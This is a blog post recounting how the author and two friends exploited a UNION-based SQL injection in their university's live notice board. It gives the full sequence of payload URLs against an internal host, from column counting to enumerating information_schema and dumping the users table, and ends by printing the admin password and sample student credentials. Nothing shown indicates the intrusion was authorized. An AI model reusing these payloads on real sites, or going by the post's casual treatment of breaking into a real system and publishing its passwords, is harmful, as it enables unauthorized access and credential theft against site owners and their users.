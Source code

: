 +++
title="How we hacked our university notice board?"
date="2014-07-10"
description="A post explaining how we hacked our notice board of our university by exploiting a SQL Injection vulnerability"
author="Nagesh Podilapu"
[taxonomies]
tags=["exploitation", "SQLi", "web"]
+++

It's been nearly 3 months since my last post. Today I thought It will be helpful for the guys who are interested in Cyber Security, If I write about UNION Based SQLi that we did on our university notice board.
A little learning part before we jump on to exploitation.

```
# Just selecting 1 2 and 3
mysql> select 1,2,3;
+---+---+---+
| 1 | 2 | 3 |
+---+---+---+
| 1 | 2 | 3 |
+---+---+---+

# database() is a MySQL function to get current database name.
mysql> select database();
+-----------------+
| database()      |
+-----------------+
| UNIONBased_SQLi |
+-----------------+

# Just selecting 1,database(),3
mysql> select 1,database(),3;
+---+-----------------+---+
| 1 | database()      | 3 |
+---+-----------------+---+
| 1 | UNIONBased_SQLi | 3 |
+---+-----------------+---+

# group_concat() is a MySQL function which concatenates all the rows
mysql> select group_concat(username,"-",password) from users;
+---------------------------------------------------+
| group_concat(username,"-",password)               |
+---------------------------------------------------+
| admin-admin@onb,N090001-rgukt123,N090002-rgukt123 |
+---------------------------------------------------+

# Example of a MySQL UNION operator.
mysql> select 1,2,3 UNION select 4,5,6;
+---+---+---+
| 1 | 2 | 3 |
+---+---+---+
| 1 | 2 | 3 |
| 4 | 5 | 6 |
+---+---+---+

# UNION only works when two select statements have the same no.of columns.
mysql> select 1,2,3 UNION select 5,6;
ERROR: The used SELECT statements have a different number of columns

# To nullify the result of LHS select statement I appended a condition 1=0
 which is false. So the results include only RHS select statement results.
mysql> select username from users where sno=1 and 1=0 UNION select 1;
+----------+
| username |
+----------+
| 1        |
+----------+
```

Good, now let's have a glance at why we started this.

After doing brute-force attack on a web page for getting flag in a [CTF](https://ctftime.org/ctf-wtf/), we thought It would give us admin rights If we can do the same attack on our notice board too. But later we realized that we can't just get the admin password by a filthy brute-force attack.

So we explored that website a bit and noticed that there is a page **notice_view.php?id=1** which takes **id** as GET parameter.

![notice_view.php page](onb.png)

As we are web developers we came to an estimation that the backend MySQL query might be

```
select * from tablename where somecolumnname=$_GET["id"];
```

Yeah... That one seems compromising and we just gave it a shot with our best injection payload i.e (single quote) into the GET parameter id. Viola!!

```
You have an error in your SQL syntax; check the manual that corresponds
to your MySQL server version for the right syntax to use near ''' at line 1
```

Yes! This is vulnerable & we can proceed with exploitation. The best part starts now.

Our next step is to find database name that is used for storing passwords. Exciting isn't it? And we used the below payload

```
1 and 1=0 UNION select 1,2,3,4,5 --
```

So the resultant query becomes

```
select * from sometablename where
somecolumnname=1 and 1=0 UNION select 1,2,3,4,5 --;
```

That payload resulted in an error

```
The used SELECT statements have a different number of columns
```

Yeah it worked. To apply union on 2 SQL query's both must have same no.of columns. But here we didn't know the no.of columns, so to find no.of columns we tried imagining from 1 to some number until which we will not get an SQL error. We used below payloads, and 3rd one made it!

```
http://10.2.42.242/ONB/notice_view.php?id=1 and 1=0 UNION select 1--
http://10.2.42.242/ONB/notice_view.php?id=1 and 1=0 UNION select 1,2--
http://10.2.42.242/ONB/notice_view.php?id=1 and 1=0 UNION select 1,2,3--
```

![First Injection point](injected.png)

So the backend query which is fetching notices is selecting 3 columns, but the web page is displaying only 2 & 3 (So these columns are vulnerable) and anything we inject in those columns that will display the result of that injected query on web page.

Cool, so now we can inject a code that will print database name on web page. There is a MySQL function **database()** which will display the current selected database. So we can use that function in any of the columns 2 (or) 3.

```
http://10.2.42.242/ONB/notice_view.php?id=1 and 1=0 UNION select 1,database(),3--
```

And result of this query is..

![Database name being displayed on page](database.png)

We have the database name **Notices**, now we have to find the table name for that we will use the mysql default Database which stores information of all the databases in it. So we have to extract all the information related to the database **Notices**. In order to do so we have used this payload

```
http://10.2.42.242/ONB/notice_view.php?id=1 and
1=0 UNION select 1,group_concat(TABLE_NAME),3 from information_schema.TABLES
where TABLE_SCHEMA='Notices' --
```

And the result is

![Table names being displayed on page](tables.png)

Now we got all the tables in **Notices** Database and those are **notices, users**. This 'users' table seems interesting and we chose to see the contents of 'users' table first. But before that we should know the columns names of that table, information_schema is our friend now.

```
http://10.2.42.242/ONB/notice_view.php?id=1 and 1=0 UNION
select 1,group_concat(COLUMN_NAME),3 from information_schema.COLUMNS where
TABLE_NAME='users' AND TABLE_SCHEMA='Notices'--
```

![Column names being displayed on page](columns.png)

Now we just need to print password column from that table, used below payload.

```
http://10.2.42.242/ONB/notice_view.php?id=1 and 1=0
UNION select 1, group_concat(username, "-", password), 3 from users --
```

Result is...

![Passwords being displayed on page](passwords.png)

Ah! Finally, the admin password is on page and it is: **admin@onb**

And in this post I keep on mentioning we. So we are

[Nageswara Rao Podilapu (Me)](https://www.facebook.com/H4rryp0tt3r7)<br>
[Anesh Parvatha](https://www.facebook.com/anesh.parvatha)<br>
[Ambati Bharath](https://www.facebook.com/bharath.hussy)
